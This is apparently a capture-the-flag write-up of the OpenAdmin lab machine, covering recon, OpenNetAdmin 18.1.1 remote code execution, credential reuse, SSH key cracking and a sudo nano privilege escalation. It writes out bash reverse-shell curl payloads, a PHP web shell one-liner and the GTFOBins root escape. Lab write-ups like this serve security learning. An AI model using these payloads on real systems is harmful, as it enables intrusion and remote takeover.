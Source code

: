 1, Recon
port scan
	22/tcp ssh `OpenSSH 7.6p1 Ubuntu 4ubuntu0.3`
	80/tcp http `Apache httpd 2.4.29`
Page check 
![](images/Pasted%20image%2020240920112604.png)
The index page is so original and looks like give us some hints about `Apache2 Ubuntu`

By enumerating the web-contents of this website
We have 2 useful options : `/artwork` and `/music`

For `/artwork`
![](images/Pasted%20image%2020240920113326.png)
There is nothing useful for us.

But for `/music`, the title is interesting `Music | NOT LIVE/NOT FOR PRODUCTION USE`
This means it is still in the testing stage.
![](images/Pasted%20image%2020240920113556.png)
There is a login page which we can access to.
![](images/Pasted%20image%2020240920113647.png)
In this place, we can find the version `version = v18.1.1`
And from the source code, we can get the name of service `OpenNetAdmin :: 0wn Your Network`
So we of course search its exploits.
`OpenNetAdmin 18.1.1 - Remote Code Execution`
`https://github.com/amriunix/ona-rce.git`
```
python3 ona-rce.py check http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!

python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Then we get the shell of www-data
```

Or we can manually exploit 
```
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.14.65/443 0>%261'&xajaxargs[]=ping"  http
://10.10.10.171/ona/

or

use the exploit-db script 
shell.sh http://10.10.10.171/ona
bash -c 'bash -i >%26 /dev/tcp/10.10.14.65/443 0>%261'
```

Then we need to enumerate the config file and find some valid credit.
From `config/config.inc.php`
```
/* Include Files: Functions */
    "inc_functions"          => "$include/functions_general.inc.php",
    "inc_functions_gui"      => "$include/functions_gui.inc.php",
    "inc_functions_db"       => "$include/functions_db.inc.php",
    "inc_functions_auth"     => "$include/functions_auth.inc.php",
    "inc_db_sessions"        => "$include/adodb_sessions.inc.php",
    "inc_adodb"              => "$include/adodb/adodb.inc.php",
    "inc_adodb_xml"          => "$include/adodb/adodb-xmlschema03.inc.php",
    "inc_xajax_stuff"        => "$include/xajax_setup.inc.php",
    "inc_diff"               => "$include/DifferenceEngine.php",
```

So let's continue enumerating file path `include/`, but very sad, I can not find anything useful for us.
Then we can enumerate the other files and finally I found other config
`/var/www/html/ona/local/config/database_settings.inc.php`
```
ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
There is two users in `/home`:
`jimmy` and `joanna`
Let's try to use this password to login them.
We successfully login as jimmy and we can get the group id
```
id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```
Then we can access to `/var/www/internal`
There is a `main.php`:
```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
That means if we can open this service, then we can get the `id_rsa` of joanna.

Then we can check where is  this service :
```
jimmy@openadmin:/etc/apache2/sites-enabled$ ls

internal.conf  openadmin.conf

internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
In this place we need to use the Port forwarding and we can get the login page.

![](images/Pasted%20image%2020240920121624.png)

From `/index.php`
```
if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1')
```
We find there is only one valid user `jimmy` and maybe the password is as usual.
But very sadly, we need to crack the password or just change the source code.
By using `CrackStation`, we easily get the password `Revealed`
![](images/Pasted%20image%2020240920122430.png)


Decrypt Key
To decrypt the key, the first thing I tried was jimmy’s password, n1nj4W4rri0R!, but that fails:
```
openssl rsa -in id_rsa -out id_rsa_openadmin_joanna 
Enter pass phrase for id_rsa:
Could not find private key from id_rsa
806B4FBAFFFF0000:error:1C800064:Provider routines:ossl_cipher_unpadblock:bad decrypt:../providers/implementations/ciphers/ciphercommon_block.c:107:
806B4FBAFFFF0000:error:04800065:PEM routines:PEM_do_header:bad decrypt:../crypto/pem/pem_lib.c:472:
```

Then I figured I’d try “ninja” words from rockyou. First create the wordlist:
`grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja`

Then it breaks in john instantly:
```
ssh2john id_rsa > hash

john --wordlist=rockyou_ninja hash  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas     (id_rsa)     
1g 0:00:00:00 DONE (2024-09-20 12:27) 100.0g/s 150400p/s 150400c/s 150400C/s bninja95..badassninja
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

`bloodninjas` is the password of this `rsa id_rsa` 
Then we can login successfully by ssh key.

In other path, we can just write a reverse shell into the `/var/www/internal`
because jimmy has the right to write into this directory.
`drwxrwx---  2 jimmy    internal 4096 Nov 23  2019 internal`

```
Firstly make a web shell
echo '<?php system($_GET["wither"]); ?>' > wither.php

Then use the web shell to handle a reverse shell

http://localhost:52846/wither.php?wither=id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

curl 'http://127.0.0.1:52846/wither.php?wither=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.65/443%200%3E%261%27'
```
Then we can get the reverse shell
![](images/Pasted%20image%2020240920123507.png)

3, shell as root
When we shell as `joanna`, we can check `sudo -l`
```
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

`-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv
From `GTFOBins` there is a tricky exploit
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo nano
^R^X
reset; sh 1>&0 2>&0
```
Then we can get the root shell.

Beyond the root:
I really want to try the sudo exploit in this version
```
sudo --version
Sudo version 1.9.7p1
Sudoers policy plugin version 1.9.7p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.7p1
Sudoers audit plugin version 1.9.7p1
```
In this place, It doesn't seem that this user can run sudoedit as root.
So `sudo 1.8.0 to 1.9.12p1 - Privilege Escalation` seems did not work.
